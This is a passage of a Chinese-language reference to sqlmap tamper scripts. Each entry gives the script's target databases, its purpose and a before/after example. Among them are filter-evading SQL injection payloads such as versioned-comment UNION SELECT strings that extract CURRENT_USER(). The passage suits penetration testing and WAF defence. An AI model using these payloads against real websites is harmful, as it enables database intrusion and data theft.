 适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：使用内联注释方式`（/*!00000*/）`进行注入 
使用脚本前：`tamper('1 AND 2>1--')` 
使用脚本后：`1 /*!00000AND 2>1*/--`

#### **space2mysqldash.py**

适用数据库：MySQL、MSSQL 
作用：将空格替换为 `--` ，并追随一个换行符 
使用脚本前：`tamper('1 AND 9227=9227')` 
使用脚本后：`1--%0AAND--%0A9227=9227`

#### **bluecoat.py**

适用数据库：Blue Coat SGOS 
测试通过数据库：MySQL 5.1,、SGOS 
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=` 
使用脚本前：`tamper('SELECT id FROM users where id = 1')` 
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

#### **versionedkeywords.py**

适用数据库：MySQL 
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11 
作用：注释绕过 
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')` 
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

#### **halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1 
测试通过数据库：MySQL 4.0.18/5.0.22 
作用：在每个关键字前添加mysql版本注释 
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")` 
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

#### **space2morehash.py**

适用数据库：MySQL >= 5.1.13 
测试通过数据库：MySQL 5.1.41 
作用：将空格替换为`#`，并添加一个随机字符串和换行符 
使用脚本前：`tamper('1 AND 9227=9227')` 
使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

#### **apostrophenullencode.py**

适用数据库：ALL 
作用：用非法双字节Unicode字符替换单引号 
使用脚本前：`tamper("1 AND '1'='1")` 
使用脚本后：`1 AND %00%271%00%27=%00%271`
